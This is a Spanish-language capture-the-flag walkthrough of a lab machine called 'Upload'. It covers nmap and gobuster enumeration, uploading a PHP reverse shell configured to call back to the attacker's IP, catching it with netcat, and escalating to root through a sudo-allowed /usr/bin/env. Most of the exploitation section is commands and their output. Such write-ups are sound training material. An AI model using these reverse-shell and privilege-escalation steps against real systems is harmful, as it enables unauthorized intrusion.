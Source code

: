 # Upload

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Parece por el título que sea un sistema para subir un archivo y vamos a enumerar la página, mientras vemos lo que contiene, dejamos haciendo fuzzing con gobuster.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```

En la página encontramos un sistema de subir archivos que probaremos a subir un archivo con una reverse shell, para obtener acceso a la máquina.

Vamos a ver que hemos encontrado con gobuster y vemos que tenemos un directorio en http://172.17.0.2/uploads/ que tiene pinta que es donde se subirán los archivos.

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
```
## Explotación.

Ahora para subir la reverse shell vamos a https://github.com/pentestmonkey/php-reverse-shell y utilizamos la reverse-shell.php que han creado ellos que funciona muy bien. Solo hay que copiar el código en un archivo php en nuestro ordenador y sustituir la ip y el puerto en el que vamos a estar en escucha.
```bash
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```

Subimos el archivo que terminamos de crear con la reverse shell y vemos que acepta archivos php.

Si vamos al directorio http://172.17.0.2/uploads/ vemos que nuestro archivo está subido y solo tendremos que hacer click sobre él y estar a la espera en nuestro equipo con netcat en puerto que habíamos indicado en el script.

```bash
nc -lvnp 4443
```

Y obtendremos la reverse shell directamente como el usuario data.
```bash
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59230
Linux ebd3a0fc70ea 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 x86_64 x86_64 GNU/Linux
 12:14:20 up 42 min,  0 users,  load average: 0.06, 0.11, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$  
```
## Escalada de privilegios.

Ahora comprobamos empezamos la escalada de privilegios viendo si hay algún archivo con permisos sudo que podamos utilizar siendo el usuario www-data.

```bash
sudo -l
```

```bash
$ sudo -l
Matching Defaults entries for www-data on ebd3a0fc70ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on ebd3a0fc70ea:
    (root) NOPASSWD: /usr/bin/env
$ 
```

Vemos que podemos utilizar el binario /usr/bin/env y para ello podemos ir a [GTFOBins](https://gtfobins.github.io/) y ver como explotar ese binario como muchos otros. En este caso simplemento tenemos que poner el siguiente comando.

```bash
sudo /usr/bin/env /bin/bash
```

Y con ello ya obtenemos una bash como root.
```bash
$ sudo /usr/bin/env /bin/bash
whoami
root
```

Para más comodidad podemos hacer un tratamiento de la tty.

```bash
script /dev/null -c bash
```

-- Hacemos Ctrl + Z --

```bash
stty -raw echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

```bash
root@ebd3a0fc70ea:/# whoami
whoami
root
root@ebd3a0fc70ea:/# 
```
